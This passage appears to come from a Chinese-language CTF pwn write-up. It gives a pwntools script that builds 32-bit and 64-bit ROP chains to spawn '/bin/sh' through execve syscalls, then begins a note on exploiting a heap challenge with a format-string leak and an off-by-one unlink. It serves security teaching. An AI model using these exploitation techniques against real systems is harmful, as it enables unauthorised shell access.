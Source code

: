 这里需要注意的是，栈变量在 32 位下位于 `esp+0xc`，在 64 位下位于 `rsp+0x0`，在计算需要填充的 padding 时需要考虑到这一点。

```python
pop_eax = 0x80a8af6
pop_dcb = 0x806e9f1
int_80 = 0x80495a3
data86 = 0x80d7000
read = 0x806c8e0
add_esp_20 = 0x80a69f2

offset86 = 0x20-0xc # esp+0xc
chain86 = [
    'a'*offset86,
    read,
    pop_dcb,0,data86,0x8,
    pop_dcb,0,0,data86,
    pop_eax,0xb,
    int_80
]
payload86 = flat(chain86,word_size=32)

pop_rax = 0x43b97c
pop_rdi = 0x4005f6
pop_rsi = 0x405895
pop_rdx = 0x43b9d5
syscall = 0x461645
data64 = 0x6a4e40
add_rsp_80 = 0x40cd17

offset64 = 0x80-len(payload86) # rsp+0x0
print hex(offset64)
chain64 = [
    'a'*offset64,
    pop_rax,0,pop_rdi,0,
    pop_rsi,data64,pop_rdx,0x100,
    syscall,
    pop_rax,59,pop_rdi,data64,
    pop_rsi,0,pop_rdx,0,
    syscall
]
payload64 = flat(chain64,word_size=64)

payload = 'a'*0x110 + (p32(add_esp_20)+'aaaa') + p64(add_rsp_80) + payload86 + payload64

sa('?',payload)
s('/bin/sh\x00')
```

### axb_2019_heap

利用格式化字符串漏洞泄露堆地址和 libc。随后，可以发现 `edit` 时存在 off by one，我们在构造 unlink 的 fake chunk 时，该漏洞会导致修改下一个 chunk 的 `prev_size` 后会覆盖掉它的 `size` 字段最后一个字节。但是同样的，我们也可以利用该漏洞手动恢复最后一个字节。，这里是 `0xa0`。
